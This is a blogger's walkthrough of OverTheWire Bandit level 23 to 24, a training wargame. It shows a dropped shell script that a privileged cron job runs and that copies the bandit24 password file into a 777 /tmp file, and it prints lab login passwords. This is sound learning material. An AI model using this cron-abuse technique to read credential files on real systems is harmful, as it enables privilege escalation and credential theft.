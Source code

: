 # Bandit walkthrough log [23 -> 24]

- Login

```
ssh bandit23@bandit.labs.overthewire.org -p 2220
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

- Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

- Solution

　今回の問題はかなり難しかったです。。。結構苦労しました。

では早速ソルーションへ行きます。

 Let's go to **/etc/cron.d/** as we always do and read the files that run with the permission of bandit24.(Because we are heading to 24!)

```
cd /etc/cron.d
cat cronjob_bandit24
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/6ed8ce46-4e7c-474b-b3fb-f27042bfabb2)

Arccoding to the file there is a shell script located in /usr/bin/cron

We can see that the script /usr/bin/cronjob_bandit24.sh is being executed every minute.

Let's check it out

```
cat /usr/bin/cronjob_bandit24.sh
```

The result is...

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

as the code says, executing and deleting all scripts in /var/spool/$myname/foo directory every minute. So, we can use this scrpit. 

 All the scripts in the foo will be executed and deleted, so you just have to write and put the shell script in 'foo'.

 Then let's write the code to use. 

Before that we need to make temporary directory to use.

```
mkdir /tmp/homer
cd /tmp/homer
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/6a0bcd30-19ad-4bd2-8974-2a4c8bc24c6e)

It doesn't matter what you name the file.

We need to create an empty text file where your password will be stored.

```
touch pw.txt
```

and make a script named 'pass.sh'

```
vi pass.sh

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/homer/pw.txt
```

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/34f75c67-bbf9-45b4-9f43-497f3524ff88)

This script makes that /etc/bandit_pass/bandit24 goes to /tmp/homer/pw.txt

And set the permission of script to 777

```
chmod 777 pass.sh
```

Then move this file to

```
cp pass.sh /var/spool/bandit24/foo
```

After about a minute, the information of /etc/bandit_pass/bandit24 will be stored by the script.

![1](https://github.com/Narthy0301/Narthy0301.github.io/assets/172380852/e0039bf5-3f36-4024-b253-f2742bdbac27)

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

We can see a password for the next level !